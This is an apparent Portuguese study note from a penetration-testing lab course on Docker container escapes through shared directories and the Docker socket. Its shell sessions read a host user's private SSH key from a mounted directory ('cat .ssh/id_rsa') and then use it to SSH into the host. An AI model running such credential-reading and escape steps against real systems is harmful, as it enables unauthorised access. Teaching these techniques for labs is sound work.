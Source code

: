 Para criar um diretório compartilhado, especifica-se um caminho no sistema host e um caminho correspondente dentro do contêiner, criando um link direto entre os dois.

Os diretórios compartilhados oferecem vantagens como persistência de dados além do tempo de vida do contêiner, simplificação do compartilhamento de código e colaboração em equipe.

Eles podem ser montados como somente leitura ou leitura-gravação, dependendo dos requisitos do administrador. Quando montados como somente leitura, as modificações no contêiner não afetam o sistema host, evitando alterações acidentais. Além disso, ao acessar e enumerar o contêiner, pode-se encontrar diretórios adicionais no sistema de arquivos do Docker.

```shell-session
root@container:~$ cd /hostsystem/home/cry0l1t3
root@container:/hostsystem/home/cry0l1t3$ ls -l

-rw-------  1 cry0l1t3 cry0l1t3  12559 Jun 30 15:09 .bash_history
-rw-r--r--  1 cry0l1t3 cry0l1t3    220 Jun 30 15:09 .bash_logout
-rw-r--r--  1 cry0l1t3 cry0l1t3   3771 Jun 30 15:09 .bashrc
drwxr-x--- 10 cry0l1t3 cry0l1t3   4096 Jun 30 15:09 .ssh


root@container:/hostsystem/home/cry0l1t3$ cat .ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```

A partir daqui, poderíamos copiar o conteúdo da chave SSH privada para um arquivo `cry0l1t3.priv`  e usá-lo para efetuar login como usuário `cry0l1t3` no sistema host.

```shell-session
NycolasES6@htb[/htb]$ ssh cry0l1t3@<host IP> -i cry0l1t3.priv
```

### Soquetes Docker
O Docker socket é um arquivo especial que permite a comunicação entre o Docker client e o Docker daemon, usando Unix sockets ou network sockets, dependendo da configuração. Ele facilita a interação entre o cliente e o daemon Docker, enviando comandos e processando ações solicitadas.

O acesso ao socket Docker é restrito a usuários ou grupos específicos para garantir segurança e prevenir acesso não autorizado. Quando exposto em uma interface de rede, o socket permite gerenciar remotamente hosts Docker, emitir comandos e controlar recursos, o que é útil para configurações distribuídas e gerenciamento remoto.

No entanto, é importante notar que arquivos e tarefas automatizados armazenados podem conter informações valiosas que podem ser usadas para escapar do contêiner Docker.

```shell-session
htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```
